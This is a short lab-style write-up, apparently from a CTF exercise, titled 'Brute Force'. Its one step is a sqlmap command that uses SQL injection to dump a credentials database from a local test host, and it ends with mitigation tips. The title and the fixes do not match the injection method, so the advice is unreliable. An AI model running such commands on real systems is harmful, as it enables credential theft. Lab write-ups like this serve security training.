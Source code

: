 # Brute Force

It's possible for an attacker to brute force the sign in form

## Steps
* Open your terminal and run:
```bash
sqlmap "http://192.68.0.106/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_Brute_Force
```
You'll receive 2 admin account credentials

* Log in using the credentials
<img src="https://i.imgur.com/OSQQBkT.png" />

## Vulnerablilities
* An attacker can obtain sensitive data such as user passwords or pins in such cases.

## Ways to secure
* Ensure clients use strong complex passwords.
* Limit the amount requests a client can create
* Setup an endless SSH Honeypot
